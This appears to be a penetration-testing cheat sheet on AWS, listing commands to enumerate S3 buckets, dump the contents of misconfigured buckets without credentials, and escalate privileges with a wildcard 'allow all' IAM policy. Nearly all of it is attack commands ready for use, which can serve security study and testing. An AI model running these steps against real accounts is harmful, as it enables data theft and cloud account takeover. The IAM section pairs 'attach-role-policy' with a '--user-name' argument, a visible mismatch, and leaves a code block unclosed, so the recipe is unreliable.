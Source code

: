 ## Cloud Computing

### S3 Bucket Enumeration
1. lazys3 (github)
   - `ruby lazys3.rb <COMPANY/KEYWORD>`
     - List all buckets and http status code
2. s3scanner (github)
   - Install
     - `pip3 install s3scanner`
   - Enumerate buckets list:
     - `s3scanner scan -f names.txt`
3. Browser
   - Go to `<bucket-name>.s3.amazonaws.com` XML file of the bucket will be displayed

### Exploit misconfigured S3 buckets
1. AWS CLI
   - Install: `apt install awscli`
   - List contents: `aws s3 ls s3://<bucket-name> --no-sign-request`
   - Download contents: `aws s3 cp s3://<bucket-name> <local-path> --recursive --no-sign-request`
2. s3scanner
   - Install
     - `pip3 install s3scanner`
   - Check if bucket exists and list permissions: 
     - `s3scanner scan -b <bucket-name>`
   - Dump bucket contents: 
     - `s3scanner dump -b <bucket-name> -d <path>`

### Exploit misconfigured IAM roles
- Configure AWS CLI with access key and secret key of low level user
  - `aws configure`
- create file policy.json
  ```
  {
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": "*",
            "Resource": "*"
        }
    ]
  }
- `aws iam create-policy --policy-name <policy-name> --policy-document file://policy.json`
- `aws iam attach-role-policy --user-name <user-name> --policy-arn <policy-arn-from-previous-command>`
- `aws iam list-users` to verify by listing users

AWS S3 hacking
- Lazys3
- S3Scanner